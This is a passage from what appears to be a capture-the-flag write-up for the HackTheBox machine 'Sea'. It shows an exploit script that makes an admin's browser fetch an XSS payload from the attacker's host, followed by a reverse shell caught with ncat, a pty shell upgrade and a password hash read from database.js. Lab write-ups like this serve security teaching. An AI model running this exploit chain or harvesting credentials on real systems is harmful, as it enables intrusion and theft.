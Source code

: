 After submitting the form, the admin clicks our link and the XSS payload was retrieved from our machine:

```shell
❯ python3 ./51805.py http://sea.htb/loginURL 10.10.14.87 4444
[...]
::ffff:10.129.188.201 - - [14/Dec/2024 22:24:29] "GET /xss.js HTTP/1.1" 200 -
::ffff:10.129.188.201 - - [14/Dec/2024 22:24:29] "GET /main.zip HTTP/1.1" 200 -
```

Successfully obtaining a shell:

```shell
❯ ncat -l 10.10.14.87 -nvp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.87:4444
Ncat: Connection from 10.129.188.201:47558.
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 04:24:30 up  8:10,  0 users,  load average: 0.79, 0.85, 0.67
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation to User

First thing, we need to get a prettier shell:
```shell
which python3
/usr/bin/python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@sea:/$
```

We can see what other users exist on the machine:
```shell
www-data@sea:/var/www/sea/data$ ls /home
ls /home
amay  geo
```

During enumeration, I discovered a `database.js` file containing credentials:

```shell
www-data@sea:/var/www/sea/data$ cat database.js
{
    "config": {
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        ...
    }
}
```
